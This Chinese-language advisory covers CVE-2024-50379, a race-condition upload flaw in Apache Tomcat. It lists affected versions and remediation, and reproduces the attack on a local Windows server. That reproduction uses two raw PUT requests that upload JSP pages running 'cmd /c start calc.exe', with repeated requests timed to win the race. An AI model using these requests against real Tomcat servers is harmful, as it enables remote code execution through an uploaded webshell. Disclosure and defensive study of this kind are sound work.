




## 漏洞描述

Apache Tomcat是由Apache软件基金会下属的Jakarta项目开发的Servlet容器。2024年12月，官方披露 CVE-2024-50379 Apache Tomcat 条件竞争文件上传漏洞。

由于 Apache Tomcat 在路径校验逻辑中存在缺陷，当在不区分大小写的系统（如Windows）上启用了default servlet 的写入功能（默认关闭）时，攻击者可构造恶意请求绕过路径一致性检查，从而可能上传webshell并造成远程代码执行。漏洞利用需要条件竞争，对网络以及机器性能环境等有一定要求。

## 影响版本

11.0.0-M1 <= Apache Tomcat < 11.0.2

10.1.0-M1 <= Apache Tomcat < 10.1.34

9.0.0.M1 <= Apache Tomcat < 9.0.98

## 复现过程

Windows + Tomcat 9.0.96

[Tomcat 9.0.96下载地址](https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.96/)

其中Tomcat中的web.xml配置如下，加入readonly配置项：

```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```



然后构造Burpsuite的包，构造了两个PUT包，分别是大写的a.Jsp、b.Jsp

```jsp
PUT /a.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json

<%@ page import="java.io.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>Hello World JSP</title>
</head>
<body>
    <h1>Hello, World!</h1>
    <%
        try {
            // Execute the command to open calc.exe
            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");
            out.println("<p>Calculator has been opened successfully (if the server is running on Windows).</p>");
        } catch (Exception e) {
            out.println("<p>Error while opening calculator: " + e.getMessage() + "</p>");
        }
    %>
</body>
</html>
```


```jsp
PUT /b.Jsp HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json

<%@ page import="java.io.*" %>
<!DOCTYPE html>
<html>
<head>
    <title>Hello World JSP</title>
</head>
<body>
    <h1>Hello, World!</h1>
    <%
        try {
            // Execute the command to open calc.exe
            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");
            out.println("<p>Calculator has been opened successfully (if the server is running on Windows).</p>");
        } catch (Exception e) {
            out.println("<p>Error while opening calculator: " + e.getMessage() + "</p>");
        }
    %>
</body>
</html>
```



然后同时再开一个线程不断地请求a.jsp，理论上这个访问会404，因为没有a.jsp，但在触发了TOCTOU竞争后，这一瞬间所有的访问都会200



最终效果如下，任意代码执行，弹出了很多计算器......



具体原理可以参考Github上的这一个[CVE-2024-50379-POC](https://github.com/v3153/CVE-2024-50379-POC)，这个并不是真正的POC，只是一个demo用来解释漏洞大概产生的原理，同时这个老哥还写了一篇blog解释对应的原理，参考：[Deep Dive & POC of CVE-2024-50379 Exploit Tomcat Vulnerability](https://medium.com/@patelvidhi4288/deep-dive-poc-of-cve-2024-50379-exploiting-tomcat-vulnerabilities-9-8-severity-694b1a65c4bd)

## 漏洞修复建议

1. 建议升级至安全版本及其之后。
2. 若无必要建议关闭 Default Servlet 的写入功能（设置readonly为 true）。
3. 禁用 PUT 方法并重启 Tomcat 服务以启用新的配置。
4. 云安全中心支持针对 Apache Tomcat default servlet PUT 开启风险 进行检测。、
